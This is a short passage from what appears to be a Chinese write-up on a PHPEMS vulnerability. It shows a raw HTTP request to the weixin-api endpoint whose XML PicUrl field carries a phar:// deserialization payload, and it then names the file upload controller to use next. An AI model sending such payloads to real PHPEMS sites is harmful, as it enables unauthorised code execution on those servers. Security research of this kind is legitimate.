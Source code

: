 ```plain
GET /index.php?weixin-api HTTP/1.1
Host: phpems.cn
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
DNT: 1
Accept: */*
Referer: http://phpems.cn/
Accept-Encoding: gzip, deflate, br
Cookie: exam_currentuser=
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,vi;q=0.7
Connection: close
Content-Length: 179


<xml><ToUserName>123</ToUserName><FromUserName>123</FromUserName><MsgType>image</MsgType><Content>123123</Content><PicUrl>phar:///filepath</PicUrl><FuncFlag>qwe</FuncFlag></xml>
```

[![](assets/1707954732-987547164174a3acdae42f2ed3c99788.png)](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385545-5167adfd-6f8a-4a20-9595-ef813fa2ed96.png#averageHue=%23fbf9f9&id=aFAYo&originHeight=661&originWidth=1380&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
紧接着就是找上传点了，  
上传点位于 app/document/controller/fineuploader.api.php 需要注册用户，并登录
